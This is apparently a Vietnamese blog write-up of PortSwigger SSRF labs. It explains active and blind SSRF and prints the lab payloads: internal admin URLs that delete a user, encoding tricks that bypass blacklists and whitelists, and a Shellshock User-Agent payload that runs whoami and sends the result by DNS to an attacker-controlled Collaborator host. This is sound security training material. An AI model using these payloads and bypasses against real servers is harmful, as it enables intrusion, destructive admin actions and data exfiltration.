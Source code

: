 ```yaml
---
title: Learning about Sever Side Request Forgery
published: 2024-10-07
tags: [HTB, Pentest]
description: Learning about SSRF Vuln
category: Learning
author: Trohan0x00
draft: true
image: "/assets/post_image/ssrf.png"
---
```



# Server Side Forgery Request (SSRF) 

## I. SSRF là gì?
![image](https://hackmd.io/_uploads/HkqFQp1kyl.png)
* Lỗ hỏng `
SSRF (Server-Side Request Forgery)` hiểu đơn giản là lỗ hỏng mà các attacker có thể lừa máy chủ thực hiện các `Requests HTTP` thay cho chúng. Điều này xảy ra khi ứng dụng web chấp nhận URL hoặc các đầu vào từ người dùng và sử dụng chúng để thực hiện các yêu cầu đến các tài nguyên bên ngoài hoặc nội bộ mà không xác thực hoặc kiểm tra nguồn gốc của chúng một cách đúng đắn.

## II. Hậu quả do SSRF gây ra là gì
* Một cuộc tấn công `SSRF` thành công thường dẫn đến các hành động trái phép hoặc truy cập dữ liệu trong tổ chức. Điều này có thể xảy ra trong ứng dụng dễ bị tấn công hoặc trên các hệ thống phía sau mà ứng dụng có thể giao tiếp. Trong một số tình huống, lỗ hổng SSRF có thể cho phép kẻ tấn công thực hiện lệnh tùy ý.
* Khai thác `SSRF` có thể dẫn đến kết nối với các hệ thống bên thứ ba bên ngoài, gây ra các cuộc tấn công tiếp diễn ác ý. Những cuộc tấn công này có thể xuất hiện như bắt nguồn từ tổ chức đang lưu trữ ứng dụng dễ bị tấn công.


## III. Các loại SSRF phổ biến

* Theo `Portswigger` thì mình sẽ chia ra các trường hợp tấn công `SSRF` phổ biến mà các attacker có thể sử dụng thành 2 loại là `Active SSRF` và `Blind SSRF` trong đó:
    1. `Active SSRF` là loại phổ biến nhất, khi kẻ tấn công có thể thấy được phản hồi ngay lập tức từ máy chủ sau khi thực hiện yêu cầu `SSRF`. Attacker sử dụng loại `SSRF` này để khám phá các dịch vụ mạng nội bộ, truy cập tài nguyên không thể truy cập từ bên ngoài, và đọc nội dung từ các dịch vụ đó.
    * Ví dụ:
        * Các Attacker nhập URL nội bộ, như `http://localhost/admin`, để tải một trang quản trị nội bộ.
        * Kết quả của yêu cầu này (nội dung của trang quản trị) sẽ được trả về và hiển thị cho Attacker.
    2. `Blind SSRF` xảy ra khi Attacker không thấy được phản hồi trực tiếp từ máy chủ. Tuy nhiên, yêu cầu vẫn được thực hiện từ phía máy chủ đến mục tiêu mà kẻ tấn công mong muốn. Loại `SSRF` này khó khai thác hơn vì kẻ tấn công không thể xác minh ngay lập tức kết quả của cuộc tấn công.
    * Ví dụ:
        * Attacker tạo ra một yêu cầu `SSRF` để truy cập một tài nguyên nội bộ.
        * Máy chủ thực hiện yêu cầu, nhưng không trả lại phản hồi cho kẻ tấn công, khiến cho việc xác định thành công hay thất bại trở nên khó khăn.
        * Tuy nhiên, kẻ tấn công có thể khai thác các tín hiệu gián tiếp, như qua việc gửi dữ liệu đến máy chủ bên ngoài mà họ kiểm soát để nhận được thông tin (ví dụ qua `DNS exfiltration`). 

## IV. Cách khai thác SSRF
### 1. Active SSRF
* Để đi một cách đồng bộ thì mình sẽ thực hành lần lượt các hình thức tấn công của lỗ hỏng ở trên `Portswigger`. Đầu tiên đối với `Active SSRF` thì ta có nhiều hình thức để tấn công như:
    1. Tấn công Server là hình thức tấn công cơ bản nhất mình sẽ nói sau.
    2. Tấn công Bypass Blacklist
    3. Tấn cộng dựa vào Whitelist

* Ta sẽ đi thực hành lần lượt các labs, để nhanh gọn nên mình sẽ chỉ nêu những ý cần nắm cũng như các keyword để thực hiện được các lab này.

#### Lab 1:  Basic SSRF against the local server
* ![image](https://hackmd.io/_uploads/SJJ7QC1yJg.png)
* Với Description trên ta biết được admin interface sẽ nằm ở `http://localhost/admin` vì thế ta cần inject được payload để cho server forward đến `/admin`. Vì lab đầu rất đơn giản nên mình sẽ đi nhanh.
* Dùng `Burp` và check ở phần Checkstock của web ta bắt được request 
    ![image](https://hackmd.io/_uploads/BJmQNRkJke.png)
* Thay thế phần `URL` ở StockAPI bằng payload của ta `http://localhost/admin`
    ![image](https://hackmd.io/_uploads/r1UD4C1J1g.png)
* Render được trang của admin tiếp tục dùng payload `http://localhost/admin/delete?username=carlos` để tiến hành xóa user carlos ra khỏi admin panel 

    ![image](https://hackmd.io/_uploads/Byao4RJkke.png)
#### Lab 2: Basic SSRF against another back-end system
![image](https://hackmd.io/_uploads/Byy-rR1k1e.png)
* Lab này cũng tương tự như Lab 1 nhưng admin interface ở đây sẽ là địa chỉ ip có format là `192.168.0.x:8080` ta vẫn không biết rõ địa chỉ ip của admin nên ta cần có sử trợ giúp của `Intruder`.
    ![image](https://hackmd.io/_uploads/HyaMUCJJyx.png)
* Ta sẽ add position ở x và chọn `Snipper Attack` với payload là Numberlist
    ![image](https://hackmd.io/_uploads/rJW38Ckyyl.png)
* Cận sẽ là từ 1-255, và tiến hành bruteforce
    ![image](https://hackmd.io/_uploads/SyvaLRyJJl.png)
* Kết quả nhận được 1 payload với Status 200 ở ip là `http://192.168.0.50:8080/admin` quay trở lại Repeter và tiến hành khai thác như Lab 1
#### Lab 3: SSRF with blacklist-based input filter
![image](https://hackmd.io/_uploads/r1c6v0yykg.png)
* Lab này sẽ là kỹ thuật `Bypass Blacklist SSRF`. Nói một chút về kỹ thuật này thì một số ứng dụng chặn các đầu vào chứa tên miền như `127.0.0.1` và `localhost`, hoặc các `URL` nhạy cảm như `/admin`. Trong trường hợp này,ta có thể vượt qua bộ lọc bằng các kỹ thuật sau:
    * Sử dụng một đại diện IP thay thế cho `127.0.0.1`, chẳng hạn như `2130706433, 017700000001, hoặc 127.1`.
    * Sử dụng double enc URL để có thể bypass trong một vài trường hợp
* Quay trở lại với lab thì tương tự như các lab trước nhưng ở đây việc nhập url không còn đơn giản như trước do server đã deploy một lớp `filter` để lọc `Untrusted Data` 
    ![image](https://hackmd.io/_uploads/Hka6iCJ1Jx.png)
* Khi ta nhập url thông thường thì sẽ nhận được thông báo blocked như này. Vì thế ta có thể thay đổi `locahost` thành địa chỉ ip `127.0.0.1` nhưng vẫn bị blocked. Để bypass ta có thể đổi thành `127.1` và vẫn bị blocked =)))
* Suy nghĩ một lúc thì mình quyết định Double Url enc luôn thằng admin, có vẻ như vẫn đề không đến từ địa chỉ ip của ta mà là đến từ route `/admin` nên mình sẽ enc chữ a thành `%25%36%31` từ đó ta có payload `http://127.1/%25%36%31dmin` 
![image](https://hackmd.io/_uploads/BJmIa0JJyx.png)
* Ta đã tiêm thành công và tiến hành solved như các lab trước thôi

#### Lab 4: SSRF with whitelist-based input filters
![image](https://hackmd.io/_uploads/BJff0AJ1ye.png)
* Lab này sẽ là kỹ thuật lợi dụng Whitelist để bypass
* Một số ứng dụng chỉ cho phép các đầu vào khớp với whitelist các giá trị cho phép. Ta có thể bypass bằng cách khai thác các sự không nhất quán trong quá trình phân tích cú pháp URL.
    * Sử dụng ký tự `@`: Chèn thông tin đăng nhập vào URL trước tên miền (hostname), ví dụ: `https://expected-host:fakepassword@evil-host.`
    * Sử dụng ký tự `#`: Đánh dấu phân đoạn URL (fragment), ví dụ: `https://evil-host#expected-host.`
    * Sử dụng phân cấp `DNS`: Tận dụng phân cấp tên miền để đưa tên miền cần thiết vào một tên miền `DNS` đầy đủ mà bạn kiểm soát, ví dụ: `https://expected-host.evil-host.`
    * URL-encode hoặc double-encode: Mã hóa URL hoặc mã hóa kép để làm rối loạn việc phân tích URL.
* Đến với Lab ta tiến hành check ở phần CheckStock như cũ 
![image](https://hackmd.io/_uploads/B1p8kJeJkx.png)
* Ta nhận thấy rằng whitelist domain name của chúng ta phải là `stock.weliketoshop.net` vì thế ta có thể sử dụng các cách bypass ở bên trên để có thể giải quyết bài này
* Ban đầu mình khá loay hoay với việc bypass này do thử một lúc lâu vẫn không tìm ra được cách bypass whitelist này
    * Và cuối cùng payload đúng là `http://localhost%2523@stock.weliketoshop.net/admin` ta sẽ dùng ký tự `#` để thực hiện. Nhưng cần phải kết hợp với Double Url enc để enc thành `%2523` để qua mặt được filter và theo công thức thì phía sau sẽ là expected_host và route `/admin` 
![image](https://hackmd.io/_uploads/SJZJ-1ly1l.png)
* Tiến hành khai thác xóa user như các lab truóc là xong.

### 2. Blind SSRF 
* Đến với phần này mình sẽ tập trung đến 1 Lab Expert duy nhất là ` Blind SSRF with Shellshock exploitation`
    ![image](https://hackmd.io/_uploads/HkzytMlJkl.png)
* Như đã tìm hiểu ở trên thì chúng ta đã nắm rõ được cơ chế cũng như khả năng tác động của `Blind SSRF`do đó mình sẽ đi thằng vào vấn đề chính. Tên Lab như ta đã thấy là khai thác `Blind SSRF` với việc khai thác `Shellshock`. Vậy, `Shellsock` là gì?
    ![image](https://hackmd.io/_uploads/rkaBKMgk1l.png)
* `Shellshock` là một lỗ hổng bảo mật nghiêm trọng trong `Bash (Bourne Again Shell)`, một trình thông dịch dòng lệnh phổ biến trên nhiều hệ điều hành `Unix` và `Linux`. Lỗ hổng này được phát hiện vào năm 2014 và có thể cho phép kẻ tấn công thực thi mã tùy ý `(RCE)` trên hệ thống bị ảnh hưởng chỉ bằng cách truyền dữ liệu độc hại thông qua các biến môi trường. 
* Nếu một ứng dụng web hoặc dịch vụ nào đó (ví dụ như một máy chủ web CGI) sử dụng `Bash` để xử lý dữ liệu đầu vào của người dùng, kẻ tấn công có thể gửi một yêu cầu chứa mã độc trong biến môi trường. Khi Bash xử lý, nó sẽ thực thi mã độc đó.
`env x='() { :;}; echo vulnerable' bash -c "echo this is a test"`
* Trở lại với Lab thì ta được hint một extension của `Burpsuite` dùng để check `Blind SSRF` đó chính là `Collaborator SSRF` nên mình tải về và sử dụng. Tiến hành vào web lab sau khi scan thì đã scan được lỗ hỏng 
    ![image](https://hackmd.io/_uploads/BksicGlyyl.png)
* Như ta thấy, tool check được `SSRF` không chỉ ở `Referer` mà còn ở `User-Agent` tức là phần trình duyệt của user. 
* Minhf search google với keyword là `Shellshock User-Agent` thì tìm được payload để thực hiện inject `() { :; }; /usr/bin/nslookup $(whoami).BURP-COLLABORATOR-SUBDOMAIN`. Tiến hành dùng `Burp Collaborator` để thực hiện lấy `domain` 
    ![image](https://hackmd.io/_uploads/BygshMgyyx.png)
* Ta thay `Referer` bằng địa chỉ description cho và tuy nhiên ta bị thiếu mất ip hoàn chỉnh do đó mình sẽ dùng `Intruder` để brute
    ![image](https://hackmd.io/_uploads/r14mazl1yx.png)
* Payload sẽ dùng `Numbers list` như các bài trước và tiến hành brute. 
    ![image](https://hackmd.io/_uploads/H1iQ_B-kye.png)
* Khi brute xong và tiến hành pol về thì ta nhận được một DNS query với tên user ta cần tìm là `peter-JxMNYr`